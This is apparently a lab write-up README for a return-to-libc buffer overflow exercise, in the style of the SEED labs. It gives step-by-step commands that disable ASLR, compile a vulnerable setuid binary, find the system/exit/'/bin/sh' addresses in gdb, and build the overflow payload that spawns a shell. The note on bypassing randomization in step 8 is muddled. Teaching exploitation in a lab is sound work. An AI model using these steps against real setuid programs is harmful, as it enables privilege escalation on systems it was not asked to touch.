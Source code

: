 # Return-To-LibC-Attack
The Return-To-Libc attack, commonly known as RTL is an attack that is profoundly known for exploiting weaknesses of a Buffer Overflow condition on a system with a non-executable stack. In this type of attack, the attack uses a tactic similar to the typical buffer overflow attack, where the return address is used to redirect the program to a different source [1]. 
But unlike a normal Buffer Overflow attack, RTL uses function provided by inbuilt library i.e. the system() call. The attacker can then overwrite the return address space and assign address of the shell code i.e. ‘/bin/sh’ address in our case. This will allow the attacker to gain access to the command shell and allow him/her to extract information from the system [3].

Now, steps used to perform the attack:

1. Turn off address randomization</br>
**Command:**
-	$ sudo sysctl -w kernel.randomize_va_space=0
enter password: dees
 kernel.randomize_va_space = 0

2. Set Environment Variables for /bin/sh address</br>
**Command:**
$ export MYSHELL="/bin/sh"

3. Executing the vul.c file to understand the registers and their current addresses</br> 
**Command:**
-	$  gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ chmod 4755 vul
-	$ gdb ./vul

<img align="center" src="/Images/1.png" width=400 height=400>

 
4. Overflowing the Buffer with all ‘A’ to check ending limit of Return Address(EIP)</br>
**Command:** 
-	$ (python -c 'print "A"*27')> badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
<img align="center" src="/Images/2.png" width=400 height=400>

5. Extract 'system' & 'exit' addresses by compiling and running the vul.c file once</br>
**Command:**
-	(gdb) r
-	(gdb) p system
 $1 = {<text variable, no debug info>} 0xb7e5f430 <system>
-	(gdb) p exit
 $2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>

6. Extract the address for '/bin/sh' using exp.c file</br> 
**Command:**
- $ gcc -g -fno-stack-protector -m32 exp.c -o exp 
- $ gdb ./exp
- (gdb) r

--> Starting program: /home/seed/exp  
    bffffe8f  
    [Inferior 1 (process 4738) exited normally] 

<img align="center" src="/Images/3.png" width=400 height=400>

7. Now perform the attack by using a python script and concatenation addresses for 'system', 'exit'& '/bin/sh'</br>
**Command:**
-	$ (python -c'print "A"*23 +"\x30\xf4\xe5\xb7"+"\xb0\x2f\xe5\xb7"+"\x8f\xfe\xff\xbf"')>badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) r

--> Starting program: /home/seed/vul 
Read from file: AAAAAAAAAAAAAAAAAAAAAAA0�巰/巏���  
$
<img align="center" src="/Images/4.png" width=400 height=400>
<img align="center" src="/Images/5.png" width=400 height=400>

8. Now, in order to execute the attack even when the kernel is generating random addresses, use following commands along with commands from steps 1-7</br>
**Commands:**
-	$ sudo sysctl -w kernel.randomize_va_space=2
enter password: dees
--> kernel.randomize_va_space = 2
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) set disable-randomization off
-	(gdb) r

Here, we use set disable-randomization off command to bypass the kernel address randomization inside the gdb debugger.


